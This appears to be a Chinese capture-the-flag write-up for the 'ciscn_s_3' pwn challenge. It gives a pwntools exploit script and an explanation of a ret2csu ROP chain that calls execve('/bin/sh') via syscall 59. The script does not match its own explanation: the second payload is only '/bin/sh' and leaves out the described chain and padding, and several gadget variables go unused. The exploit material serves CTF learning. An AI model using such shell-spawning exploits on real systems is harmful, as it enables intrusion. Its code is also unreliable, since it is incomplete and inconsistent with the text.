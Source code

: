 ```
from pwn import *

p = process('./ciscn_s_3')
elf = ELF('./ciscn_s_3')
context.log_level = 'debug'

main_addr = elf.symbols['main']
csu_end = 0x040059A
csu_front = 0x0400580
ret_addr = 0x004003a9
rax_59_ret = 0x04004E2
syscall = 0x0400517 
gdb.attach(p,'b *0x00400589')
payload = '/bin/sh\x00' + 'A'*0x8 + p64(main_addr)
p.sendline(payload)
p.recv(0x20)
stack_addr = u64(p.recv(8))
print 'stack_addr-->' + hex(stack_addr)
pause()
binsh_addr = stack_addr - 0x138
rax_59 = binsh_addr + 0x10
pop_rdi = 0x04005a3
payload = '/bin/sh\x00'
p.sendline(payload)
pause()
p.interactive()
pause()
```

![1](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041738563.png)

如图0xc8d8 - 0xc7a0 = 0x138

为调用64位的syscall，rdi要存放'/bin/sh'的地址，rsi和rdx都要置零

![image-20210329235922650](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041738688.png)

可是好像没有找到给rdx置零的gadget啊，怎么办呢，我们看到函数__libc_csu_init，利用这个函数里面的汇编片段，我们可以控制rdx和rsi寄存器的值

![image-20210330000043379](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041738685.png)

正好我们刚才找到的gadgets里面也有设置r13和r14寄存器的值的片段

还有一个call [r12+rbx*8]，我们把rbx设置为0，把r12寄存器内的值设置为存放mov_rax_59_ret的地址的地址即可

整体逻辑就是：泄露出/bin/sh的地址，然后用pop_rbx_rbp_r12_r13_r14_r15 , 把r12寄存器内的值设置为存放mov_rax_59_ret的地址的地址，然后通过 mov_rdx_r13_call 执行 call r12 。然后我们跳转到pop rdi ; ret 将binsh压到rdi，然后执行syscall，此时rax为59 rdi为 /bin/sh 所以会执行system(“/bin/sh”)

第二次payload还需要注意一个填充，'a' * 0x38，这是因为call完返回之后还会进行add rsp, 8; pop等一系列操作，相当于pop了七次，故要填充56字节

![image-20210331172338405](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041738996.png)
